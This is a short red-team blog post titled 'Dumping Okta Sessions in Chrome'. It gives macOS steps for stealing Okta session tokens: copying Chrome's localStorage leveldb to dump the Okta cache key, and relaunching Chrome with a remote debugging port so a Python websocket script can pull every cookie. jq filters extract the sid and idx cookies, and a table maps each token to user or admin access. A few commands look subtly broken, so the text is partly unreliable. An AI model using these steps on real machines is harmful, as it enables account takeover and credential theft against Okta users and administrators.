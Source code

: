 ```yaml
---
layout: post
title: "Dumping Okta Sessions in Chrome"
date: 2024-11-17
tags: ["post-exploitation"]
---
```


# Problem Statement

How difficult is it to steal Okta session tokens?

# Local Storage

Google Chrome (macOS) localStorage is saved on the filesystem in the leveldb file: `/Users/<user>/Library/Application Support/Google/Chrome/Default/Local Storage/leveldb`.[^1]

To dump localStorage:
* `git clone https://github.com/rdreher/chromeStorageDump.git`
* `npm install levelup leveldown`
* Avoid a file lock, by first copying leveldb to /tmp
* `cp -R "/Users/<user>/Library/Application Support/Google/Chrome/Default/Local Storage/leveldb" "/tmp/leveldb"`
* `node chromeStorageDump.js -k okta-cache-storage "/tmp/leveldb"`

# Cookies

Google Chrome (macOS) cookies are stored in an encrypted SQLite database with the key saved in the keychain.[^2] [^3] Unencrypted cookies can still be fetched by attaching a remote chrome debugger.[^4] [^5] This technique requires existing Chrome browsers to be restarted with the `--remote-debugging-port` flag. 

* `killall Google\ Chrome`
* `/Applications/Google\ Chrome.app/Contents/MacOS/Google\ Chrome --remote-allow-origins="*" --remote-debugging-port=9222 --user-data-dir="/Users/<user>/Library/Application Support/Google/Chrome" --restore-last-session --profile-directory=Default`

The following `/json` endpoint provides a list of websocket addresses. 
* `curl http://localhost:9222/json`

Using a websocket client, connect using the correct page id to dump the unencrypted cookie in JSON format.

* `pip3 install websocket`
* `pip3 install websocket-client`

```python
# ripWCMN.py
import websocket
ws = websocket.WebSocket()
ws.connect("ws://localhost:9222/devtools/page/<id>", suppress_origin=True)
ws.send('{\"id\": 1, \"method\": \"Network.getAllCookies\"}')
print(ws.recv())
```
* `python3 rip ripWCMN.py  | jq -r '.[] | select(.url="https://<subdomain>.okta.com/app/UserHome")'`
* `python3 rip ripWCMN.py  | jq -c '.result.cookies[] | select(.name="idx")'`

> CREDIT - Justin Bui & @mangopdf

# Okta

If an admin session is stolen from `{tenant}.okta.com`, the session cookie can be used on `{tenant}-admin.okta.com`.[^6]

| Account | Name | Type | Note |
|---|---|---|---|
| Okta Admin | sid | cookie |  |
| Okta User | okta-token-storage | localStorage | jwt auth token |
| Okta User | idx | cookie | higher perms than bearer token |

# References
[^1]: [https://github.com/rdreher/chromeStorageDump](https://github.com/rdreher/chromeStorageDump)
[^2]: [https://www.cyberark.com/resources/threat-research-blog/the-current-state-of-browser-cookies](https://www.cyberark.com/resources/threat-research-blog/the-current-state-of-browser-cookies)
[^3]: [https://gist.github.com/creachadair/937179894a24571ce9860e2475a2d2ec](https://gist.github.com/creachadair/937179894a24571ce9860e2475a2d2ec)
[^4]: [https://slyd0g.medium.com/debugging-cookie-dumping-failures-with-chromiums-remote-debugger-8a4c4d19429f](https://slyd0g.medium.com/debugging-cookie-dumping-failures-with-chromiums-remote-debugger-8a4c4d19429f)
[^5]: [https://posts.specterops.io/hands-in-the-cookie-jar-dumping-cookies-with-chromiums-remote-debugger-port-34c4f468844e](https://posts.specterops.io/hands-in-the-cookie-jar-dumping-cookies-with-chromiums-remote-debugger-port-34c4f468844e)
[^6]: [https://www.linkedin.com/pulse/oktas-so-secret-less-secure-api-authentication-method-chaim-sanders/](https://www.linkedin.com/pulse/oktas-so-secret-less-secure-api-authentication-method-chaim-sanders/)